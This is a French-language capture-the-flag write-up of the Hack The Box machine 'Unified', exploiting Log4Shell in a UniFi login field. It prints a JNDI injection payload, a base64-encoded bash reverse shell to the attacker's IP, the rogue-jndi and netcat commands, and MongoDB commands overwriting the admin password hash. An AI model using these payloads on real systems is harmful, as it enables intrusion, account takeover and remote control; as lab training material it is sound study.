 # Unified

![Fawn](../img/Unified.png)  
Linux

Cette machine est intéressante vu que Log4j a surpris tout le monde, étant donné que c'est une faille qui est la depuis un bon moment et elle n'a été découverte que récemment.  Elle a même permis de prendre conscience sur le fait qu'un seul développeur à la charge d'un projet et qui fait ce code de façon bénévole pouvait être à la base d'une faille de grosse ampleur. [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

## On teste la vulnerabilité

On se sert du champ 'remember' avec le 'repeater de burpsuite' pour y introduire un appel ldap, on est à l'écoute avec tcpdump

${jndi:ldap://10.10.14.19/whatever}

```bash
❯ tcpdump -i tun0 port 389 -v
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
03:18:20.530190 IP (tos 0x0, ttl 63, id 10956, offset 0, flags [DF], proto TCP (6), length 60)
    10.129.125.109.60474 > 10.10.14.19.ldap: Flags [S], cksum 0xf4e8 (correct), seq 339107591, win 64240, options [mss 1360,sackOK,TS val 2396506282 ecr 0,nop,wscale 7], length 0
03:18:20.530225 IP (tos 0x0, ttl 64, id 0, offset 0, flags [DF], proto TCP (6), length 40)
    10.10.14.19.ldap > 10.129.125.109.60474: Flags [R.], cksum 0xaec7 (correct), seq 0, ack 339107592, win 0, length 0
```

## On construit l'application java rogue-jndi avec maven

Ici j'ai eu un doute sur la version de java mais cela marche quand même avec la version 17 de Parrot. De toutes façons si tu désinstalles la 17 t'as plus le Burpsuite.

```bash
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

Nous avons construit :  RogueJndi-1.1.jar

On va utiliser cette appli pour créer le payload !

Le payload va être un reverse shell sous cette forme : 

```bash
❯ echo 'bash -c bash -i >&/dev/tcp/10.10.14.19/8888 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTkvODg4OCAwPiYxCg==
```

Un reverse shell classique.

On va donc exécuter RogueJndi-1.1.jar et on va lui passer le payload dans le paramètre --command et on va mettre le --hostname avec nôtre tun0

```bash
❯ java -jar ./RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTkvODg4OCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.19"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.14.19:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.14.19:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.19:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.19:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.19:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.19:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.19:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.19:1389/o=groovy to artsploit.controllers.Groovy
Sending LDAP ResourceRef result for o=tomcat with javax.el.ELProcessor payload
```

On va sur Burpsuite et on send dans le 'repeater' avec : 

```bash
{"username":"admin","password":"admin","remember":"${jndi:ldap://10.10.14.19:1389/o=tomcat}","strict":true}
```

## On est à l'écoute et on reçois la connection

```bash
❯ nc -lvp 8888
listening on [any] 8888 ...
10.129.125.109: inverse host lookup failed: Unknown host
connect to [10.10.14.19] from (UNKNOWN) [10.129.125.109] 50980
whoami
unifi
script /dev/null -c bash
Script started, file is /dev/null
unifi@unified:/usr/lib/unifi$ 
```

pwd et ls /home/${USER} pour aller chercher un user.txt

## On se connecte a mongo pour chercher le pass de l'admin

```bash
unifi@unified:/home/michael$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

Une fois trouvé on va le remplacer par le notre

1. On crée le pass en sha-512

```bash
mkpasswd -m sha-512 Password1234
```

2. On le remplace 

```bash
unifi@unified:/home/michael$ mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$xpt560mkS9qyXcXx$pif2PENRfHM/5IKuw4qaSbebUCh1dO72I5wZnL4tntxWzJzT7n4bNCwqXD6lY68UMCX6vx.2zpweswuYdBAX6."}})'
<ntxWzJzT7n4bNCwqXD6lY68UMCX6vx.2zpweswuYdBAX6."}})'
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
unifi@unified:/home/michael$ 
```

Puis on peut se connecter sur l'interface du site ;)

user : administrator
pass : Password1234

Dans le site on trouve le mot de passe pour root pour une connection ssh !!!

On se connecte en ssh et la machine est finie. \o/

[Pwned](https://www.hackthebox.com/achievement/machine/944728/441) 

---  
<div style="text-align: right;"><a href="#" >up &uarr;</a>&nbsp;</div>